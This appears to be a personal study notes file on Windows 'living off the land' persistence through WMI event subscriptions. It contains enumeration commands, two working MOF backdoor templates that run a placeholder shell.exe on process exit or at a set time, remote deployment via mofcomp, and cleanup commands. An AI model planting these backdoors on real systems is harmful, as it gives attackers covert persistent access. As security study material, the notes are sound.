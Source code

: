 # Living off the Land

TODO: Consult cybereason blog post to replicate the attacks (refer to the links)

## 01 - Command Prompt

Query information about the namespaces for the WMI functions that will help us to make a persistence mechanism.

- List the Root namespace

```
C:\> wmic /namespace:\\root path __namespace
```

## 02 - Powershell

Query information about the namespaces for the WMI functions that will help us to make a persistence mechanism.

- List the Root namespace

```powershell
PS C:\> Get-CimClass

PS C:\> Get-CimClass -Namespace ROOT/CIMV2 | Where-Object CimClassName -like Win32*

PS C:\> Get-WmiObject -namespace "root" -class "__Namespace" | select Name

PS C:\> Get-CimInstance -namespace "root" -class "__Namespace" | Select-Object Name
```

- List the names for the Subscription

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -list

PS C:\> Get-CimInstance -Namespace root\Subscription -list
```

- Display the information of the __EventFilter class and it's ability to trigger any `MSFT_SCMEventLogEvent`

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -Class __EventFilter

PS C:\> Get-CimInstance -Namespace root\Subscription -Class __EventFilter
```

- Same thing with the __EventConsumer that has the `SCM Event Log Consumer` for an event that will happen

```powershell
PS C:\> Get-WmiObject -Namespace "root\Subscription" -Class __EventConsumer

PS C:\> Get-WmiObject -Namespace root\Subscription -Class __FilterToConsumerBinding
```

`$ cat terminatecalcapptorunshell.mof`

---

```
#pragma namespace ("\\\\.\root\\subscription)

instance of CommandLineEventConsumer as $Cons {
    Name = "TestConsumer"
    CommandLineTemplate="C:\\path\\to\shell.exe";
};

Instance of __EventFilter as $Filt {
    Name = "TestFilter";
    Query = "Select * From __InstanceDeletionEvent WITHIN 5 "
            "Where TargetInstance ISA \ "Win32_Process\" "
            "AND TargetInstance.Name = \"win32calc.exe\"";
    QueryLanguage = "WQL";
    EventNamespace = "root\\subscription";
};

Instance of __FilterToConsumerBinding {
    Filter = $Filt;
    Consumer = $Cons;
}
```

`C:\> mofcomp terminatecalcapptorunshell.mof`

`$ cat wmitimedevent.mof`

---

```
#pragma namespace ("\\\\.\root\\subscription)  
  
instance of CommandLineEventConsumer as $Cons {  
    Name = "TestConsumer"  
    CommandLineTemplate="C:\\path\\to\shell.exe";  
};  
  
Instance of __EventFilter as $Filt {  
    Name = "TestFilter";  
    Query = "Select * From __InstanceModificationEvent "  
            "Where TargetInstance ISA \ "Win32_LocalTime\" "  
            "AND TargetInstance.Hour = 1 "  
            "AND (TargetInstance.Minute = 24 "  
            "OR TargetInstance.Minute = 25 "  
            "OR TargetInstance.Minute = 26) "  
            "AND TargetInstance.Second = 30 ";  
    QueryLanguage = "WQL";  
    EventNamespace = "root\\cimv2";  
};  
  
Instance of __FilterToConsumerBinding {  
    Filter = $Filt;  
    Consumer = $Cons;  
}
```

- Execute the MOF script.

`C:\> mofcomp wmitimedevent.mof`

- You can execute it remotely without touching the disk.

`C:\> mofcomp -N \\<IP>\root\subscription wmitimedevent.mof`

### 2.1 - Clean up the backdoors

- Query the namespace for `__EventFilter`

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter
```

- Delete the name of the Filter

`C:\> wmic /namespace:"\\root\subscription" path __EventFilter where name="TestFilter" delete`

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter -Filter "Name='TestFilter'" | Remove-WMIObject -Verbose

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter -Filter "Name='TestFilter'" | Remove-WMIObject -Verbose
```

- Query to double check if it's deleted

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter
```

- Delete the name of the Filter

```
C:\> wmic /namespace:"\\root\subscription" path __FilterToConsumerBinding where Filter="__EventFilter.Name='TestConsumer'" delete
```

TODO: Convert this to Get-CimInstance

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path like 'TestConsumer'" | Remove-WMIObject
```

---
## References

- [Pentestlab Blog: Persistence WMI Event Subscription](https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/)

- [Cybdefnp: Malware Persistence in WMI](https://cybdefnp.wordpress.com/2020/07/05/malware-persistence-in-wmi/)

- [PDQ: Powershell Guide Get-CimInstance and Get-WmiObject](https://www.pdq.com/blog/powershell-guide-get-ciminstance-and-get-wmiobject/)

- [in.security: An intro into abusing and identifying WMI Event Subscriptions for persistence](https://in.security/2019/04/03/an-intro-into-abusing-and-identifying-wmi-event-subscriptions-for-persistence/)

- [SS64 Get-CimInstance](https://ss64.com/ps/get-ciminstance.html)

- [FuzzySecurity: Windows Userland Persistence Fundamentals](https://fuzzysecurity.com/tutorials/19.html)